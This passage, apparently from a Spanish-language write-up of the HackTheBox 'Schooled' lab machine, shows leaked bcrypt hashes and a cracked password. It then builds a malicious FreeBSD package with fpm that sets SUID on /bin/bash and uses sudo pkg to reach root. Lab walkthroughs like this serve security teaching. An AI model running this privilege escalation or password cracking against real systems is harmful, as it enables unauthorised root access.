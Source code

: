 Obteniendo:
![Untitled](/assets/img/Schooled/Pasted image 20240318192752.png)

```bash
guest	$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2	root@localhost
admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW	jamie@staff.schooled.htb
```

Filtrando

![Untitled](/assets/img/Schooled/Pasted image 20240318193921.png)

![Untitled](/assets/img/Schooled/Pasted image 20240318194024.png)

Ataque de fuerza bruta

![Untitled](/assets/img/Schooled/Pasted image 20240318195603.png)

Obteniendo el password:

```bash
!QAZ2wsx
```

Probando password:

![Untitled](/assets/img/Schooled/Pasted image 20240318195801.png)

## Shell as root

Enumerando se tiene que el usuario `jamie` puede ejecutar los siguientes comandos sin proporcionar contraseña:

![Untitled](/assets/img/Schooled/Pasted image 20240330154116.png)

Se tiene que a través del comando `pkg` se puede hacer [pkg | GTFOBins](https://gtfobins.github.io/gtfobins/pkg/#sudo)

Se va a asignar un permiso `SUID` a la `bash`

En la máquina atacante utilizar los siguientes comandos:

```bash
❯ TF=$(mktemp -d)
❯ echo 'chmod u+s /bin/bash' > $TF/x.sh
❯ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
```

se habrá creado un archivo `x-1.0.txz` el cual deberemos transferir a la máquina víctima y ejecutarlo

![Untitled](/assets/img/Schooled/Pasted image 20240318200836.png)

Transfiriendo el archivo a la máquina víctima:
